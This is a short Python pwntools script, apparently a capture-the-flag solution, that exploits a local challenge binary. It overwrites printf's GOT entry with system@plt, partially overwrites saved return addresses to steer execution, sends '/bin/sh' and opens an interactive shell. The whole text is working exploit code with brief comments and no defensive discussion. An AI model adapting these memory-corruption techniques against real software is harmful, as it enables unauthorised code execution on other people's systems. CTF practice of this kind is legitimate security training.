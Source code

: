 ```python
elf = ELF("./pwn")
libc = ELF("./libc.so.6")

# datas
printf_got = elf.got["printf"] # 0x404028
##system_got = elf.got["system"]
system_plt = elf.plt["system"]
timeline_pid = 0x4012AB

# Dest = 0x4040B8
io.sendafter(b'Input the Destination:\n', p64(printf_got)) # Dest -> printf_got

io.sendafter(b'Input the impact:', p8(0x40)) # printf_got -> system_plt
payload = b'a'*0x18 + p8(0xab) # rip -> time = 0 ; call fork()
io.send(payload)


io.sendafter(b'Input the Destination:\n', b'/bin/sh\0')
payload = b'a'*0x18 + p8(0xb5) # call fork()
##io.sendafter(b'Input the impact:', b's') # s
io.send(payload)

payload = b'a'*0x18 + p8(0x48) # 0x401248 ret
io.send(payload)

io.interactive()

```

